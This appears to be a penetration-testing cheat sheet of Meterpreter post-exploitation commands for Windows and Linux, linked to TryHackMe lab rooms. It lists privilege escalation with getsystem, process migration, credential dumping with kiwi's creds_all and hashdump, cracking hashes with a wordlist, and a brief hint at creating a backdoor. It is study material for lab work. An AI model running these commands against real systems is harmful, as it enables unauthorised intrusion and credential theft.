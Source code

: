# Meterpreter exploitation commands

[Go back](../index.md#meterpreter)

<div class="row row-cols-lg-2"><div>

* ➡️ See if you are root and your privileges

```shell!
meterpreter> getuid
Windows: NT AUTHORITY\SYSTEM
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```shell!
meterpreter> sysinfo
Computer        : XXX-PC
OS              : Windows X (... Build xxx...).
Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```shell!
meterpreter> shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```
</div><div>

* ➡️ Ask for suggested exploits

```shell!
meterpreter> run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```shell!
meterpreter> resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.

```shell!
meterpreter> ps # list process
meterpreter> migrate process_pid # move to another process
meterpreter> migrate -N process_name # same
meterpreter> # most used ones
meterpreter> migrate -N spoolsv.exe # can restart so good
meterpreter> migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Windows commands

[![blue](../../../../../_badges/thm-p/blue.svg)](https://tryhackme.com/room/blue)
[![ice](../../../../../_badges/thm-p/ice.svg)](https://tryhackme.com/room/ice)
[![blaster](../../../../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)
[![steelmountain](../../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ See your privileges

```shell!
meterpreter> getprivs
```

* ➡️ Try automatic privilege escalation 😎 ([more information](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)).

```shell!
meterpreter> getsystem
```

* ➡️ Load PowerShell

```shell!
meterpreter> load powershell
meterpreter> powershell_shell
PS>
```
</div><div>

* ➡️ Dump in-memory passwords

```shell!
meterpreter> load kiwi
meterpreter> migrate some_process_nt_system_compatible
meterpreter> creds_all # retrieve all credentials
meterpreter> # you can also create a backdoor...
```

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
meterpreter> hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used')> use auxiliary/analyze/crack_windows
msf6 exploit('module_used')> set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used')> run
```
</div></div>

<hr class="sep-both">

## Linux commands

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Start a shell

```ps
meterpreter> shell
$
```
</div><div>

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/cryptography/algorithms/hashing/index.md#hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```ps
# basically, all that to do: "cat /etc/shadow"
meterpreter> bg
msf6 exploit('module_used')> use post/linux/gather/hashdump
msf6 exploit('module_used')> set SESSION 1
msf6 exploit('module_used')> run
```
</div></div>